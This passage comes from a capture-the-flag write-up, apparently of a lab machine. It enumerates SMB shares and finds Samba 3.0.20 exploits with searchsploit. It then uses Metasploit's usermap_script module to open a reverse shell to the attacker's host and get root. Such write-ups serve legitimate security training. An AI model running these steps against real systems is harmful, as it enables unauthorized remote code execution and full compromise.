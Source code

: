 ```shell
smb: \> cd vmware-root\
smb: \vmware-root\> dir
NT_STATUS_ACCESS_DENIED listing \vmware-root\*

smb: \> get vgauthsvclog.txt.0
getting file \vgauthsvclog.txt.0 of size 1600 as vgauthsvclog.txt.0 (4.5 KiloBytes/sec) (average 4.5 KiloBytes/sec)

smb: \> get .X0-lock
getting file \.X0-lock of size 11 as .X0-lock (0.1 KiloBytes/sec) (average 3.0 KiloBytes/sec)

```
After transferring the most seemingly important files and scanning them, we found nothing. But the version seems to be old, lets search and exploit using `searchsploit` again.

## Explotation 

```shell
searchsploit samba 3.0.20
--------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security By | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script'  | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow              | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)      | linux_x86/dos/36741.py
```
There is a metasploit one, lets try


```shell
search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3 
RHOSTS => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST  10.10.16.4 
LHOST => 10.10.16.4
msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.3:37090) at 2025-04-10 11:27:01 +0200

id
uid=0(root) gid=0(root)

```

And we are directly root. 



